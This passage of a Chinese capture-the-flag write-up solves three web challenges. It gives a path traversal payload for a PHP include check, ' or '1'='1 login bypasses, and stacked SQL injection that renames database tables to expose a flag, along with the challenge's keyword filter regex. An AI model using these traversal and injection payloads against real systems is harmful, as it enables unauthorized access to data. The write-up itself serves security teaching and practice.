 ```php
        echo "<br><img src=\"https://i.loli.net/2018/11/01/5bdb0d93dc794.jpg\" />";
    }  
?>
```

`?file=source.php?/../../../../ffffllllaaaagggg`

或

`?file=hint.php?/../../../../ffffllllaaaagggg`

## 0x2.[极客大挑战 2019]EasySQL

直接

`payload: username=admin' or '1'='1&password=aaa' or '1'='1`

`username=admin&password=aa' or '1'='1`



## 0x3.[强网杯 2019]随便注

用union select 时：

```
return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);
```

### 1）.堆叠注入：

show database;

show tables;

查看表结构：

```
desc `1919810931114514`--+
注意要用`引起来
或：show colunms from `1919810931114514`
```

可以知道，有两个表，words，1919810931114514(这里面有flag)。

大致查询语句应该为：select id,data from words where id=;

那么可以将words表改名为aaa，将1919810931114514改为words，再将id改为flag。（偷天换日的感觉）

>  1'; rename table words to word1; rename table \`1919810931114514\` to words;alter table words add id int unsigned not Null auto_increment primary key; alert table words change flag data varchar(100);#

```
修改已知表的列：

添加一个列
alter table "table_name" add " column_name"  type;

删除一个列
alter table "table_name" drop " column_name"  type;

改变列的数据类型
alter table "table_name" alter column " column_name" type;

改列名
alter table "table_name" change " column1" " column2" type;
alter table "table_name" rename "column1" to "column2";
```
